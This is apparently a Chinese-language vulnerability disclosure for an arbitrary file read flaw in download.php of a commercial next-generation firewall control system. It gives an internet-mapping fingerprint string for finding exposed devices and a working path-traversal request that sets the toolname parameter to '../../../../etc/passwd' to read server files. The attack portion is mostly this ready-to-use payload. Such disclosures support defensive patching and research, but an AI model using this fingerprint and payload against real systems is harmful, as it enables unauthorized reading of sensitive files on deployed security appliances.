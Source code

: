 # 中科网威 下一代防火墙控制系统 download.php 任意文件读取漏洞

## 漏洞描述

中科网威 下一代防火墙控制系统 download.php 任意文件读取漏洞, 攻击者通过漏洞可以读取服务器上的文件

## 漏洞影响

<a-checkbox checked>中科网威 下一代防火墙控制系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="Get_Verify_Info(hex_md5(user_string)."</a-checkbox></br>

## 漏洞复现

登录页面如下

![img](../../../.vuepress/public/img/image-20210531184103009.png)



漏洞存在于 download.php

![img](../../../.vuepress/public/img/image-20210602161941678.png)



任意点击后抓包，更改 `toolname` 参数

```plain
/download.php?&class=vpn&toolname=../../../../../../../../etc/passwd
```



![img](../../../.vuepress/public/img/image-20210602162110747.png)



## 

